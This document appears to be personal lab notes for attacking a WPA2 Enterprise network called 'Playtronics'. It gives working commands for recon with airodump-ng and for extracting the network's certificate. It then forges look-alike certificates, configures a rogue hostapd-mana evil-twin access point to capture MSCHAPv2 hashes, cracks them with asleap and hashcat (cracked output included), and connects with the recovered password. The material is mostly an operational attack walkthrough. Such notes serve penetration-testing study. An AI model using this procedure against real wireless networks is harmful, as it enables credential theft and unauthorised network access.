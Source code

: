## WPA Enterprise

```text
sudo airodump-ng wlan0mon
```
```text
BSSID              PWR Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
FC:EC:DA:8F:2E:90  -40     639       19    1   2  300. WPA2 CCMP   MGT  Playtronics
```
MGT, meaning WPA Enterprise

####To view Certificate for SSID
```text
sudo airodump-ng wlan0mon -w Playtronics
```
Review in wireshark with filter "wlan.bssid=FC:EC:DA:8F:2E:90 && eap && tls.handshake.certificate"
in the submenus of the reviewed packet - open EAP -> TLS -> Certificate -> Certificates

The certificate once exported can be reviewed with openssl to get the 

openssl x509 -inform der -in cert.der text
 
### To mimick this AP

### Setup Certificates

```text
sudo apt install freeradius
sudo -s
cd /etc/freeradius/3.0/certs
```

```text
nano ca.cnf
....
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
....
```

```text
nano server.cnf
....
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
....
```

```text
rm dh
make destroycerts
```

### Setup hostapd-mana - AP
```text
sudo apt install hostapd-mana
```
```text
nano /etc/hostapd-mana/mana.conf

ssid=Playtronics
interface=wlan0
driver=nl80211
channel=1
hw_mode=g
ieee8021x=1
eap_server=1
eapol_key_index_workaround=0
eap_user_file=/etc/hostapd-mana/mana.eap_user
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

auth_algs=1
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP TKIP

mana_wpe=1
mana_credout=/tmp/hostapd.credout
mana_eapsuccess=1
mana_eaptls=1
```
```text
nano /etc/hostapd-mana/mana.eap_user

*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


### Start the AP with certificate
```text
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

### Output
```text
MANA EAP EAP-MSCHAPV2 ASLEAP user=user1 | asleap -C 5f:57:b0:b6:d1:6d:e0:82 -R e7:db:11:00:06:f7:49:02:0e:e9:17:61:c8:d2:d4:a4:e5:4b:a7:fa:9b:97:81:4e
MANA EAP EAP-MSCHAPV2 JTR | user1:$NETNTLM$5f57b0b6d16de082$e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082
```


### Crack with Asleap
I could not get this to work ....
```text
asleap -C 5f:57:b0:b6:d1:6d:e0:82 -R e7:db:11:00:06:f7:49:02:0e:e9:17:61:c8:d2:d4:a4:e5:4b:a7:fa:9b:97:81:4e -W /usr/share/john/password.lst
```


### Crack with Hashcat
5500 | NetNTLMv1 / NetNTLMv1+ESS

```text
echo user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082 > wpa_enterprise.txt
hashcat -m 5500 wpa_enterprise.txt rockyou.txt

user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082:password1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5500 (NetNTLMv1 / NetNTLMv1+ESS)
```

### Connect to Wifi
```text
nano /home/<user>/wificonnection.conf

network={
scan_ssid=1
eap=PEAP
ssid="YOUR_SSID"
key_mgmt=WPA-EAP
identity="YOUR_USERNAME"
password="YOUR_PASSWORD"
phase1="peaplabel=0"
phase2="auth=MSCHAPV2"
}

wpa_supplicant -B -i wlan0 -c /home/<user>/wificonnection.conf

dhclient wlan0
```




https://7thzero.com/blog/wifi-from-the-cli-in-linux-using-wpa_supplicant










